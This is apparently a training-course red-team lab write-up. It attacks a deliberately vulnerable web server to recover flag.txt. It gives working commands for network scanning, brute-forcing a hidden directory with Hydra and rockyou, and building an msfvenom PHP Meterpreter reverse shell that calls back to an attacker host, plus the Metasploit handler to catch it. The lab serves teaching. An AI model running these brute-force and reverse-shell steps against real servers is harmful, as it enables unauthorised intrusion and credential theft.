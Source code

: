 ### Red Team 
In this activity, you will use a Kali instance to hack into a vulnerable web server. Hidden in the web server is a file called `flag.txt`. You will need to use a reverse php shell to gain access to the web server to recover the `flag.txt` document. 

**Part 1: Red Team Objectives**
Complete the following in order to find the flag:
- Discover the IP address of the Linux server.
```
netdiscover
```
<img src="images/red-01.png" />

```
Db_nmap 172.16.84.205 -Pn -p-
```
<img src="images/red-02.png" />

```
Db_nmap 172.16.84.205 -A
```
<img src="images/red-03.png" />

```
Nikto --host http://172.16.84.205
```
<img src="images/red-04.png" />
<img src="images/red-05.png" />

```
printf “GET / HTTP/1.0\r\n\r\n” | nc 172.16.84.205 80 | less
```
<img src="images/red-06.png" />

- Use Burp Suite to generate a sitemap by manually browsing the site.
<img src="images/red-07.png" />

- Use Burp Spider to expand your sitemap.
<img src="images/red-08.png" />

- Locate the hidden directory on the server.
company_folders/secret_folder
<img src="images/red-09.png" />

- Brute force the password for the hidden directory.
<img src="images/red-10.png" />

```
hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 172.16.84.205 http-get /company_folders/secret_folder/
```
<img src="images/red-11.png" />
<img src="images/red-12.png" />

- Break the hash password with John the Ripper
<img src="images/red-13.png" />

- Connect to the server via Webdav.
<img src="images/red-14.png" />

- Generating a reverse shell with msfvenom.
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=172.16.84.55 LPORT=6666 -f raw -or evil.php
```
<img src="images/red-15.png" />

- Upload a reverse php connection payload.
<img src="images/red-16.png" />

```
msf > use multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 172.16.84.55
LHOST => 172.16.84.55
msf exploit(handler) > set LPORT 6666
LPORT => 6666
msf exploit(handler) > exploit
```

- Capture and show the flag.
```
find / -type f -name 'flag.txt' 2>/dev/null -exec cat {} \'
```

<img src="images/red-17.png" />
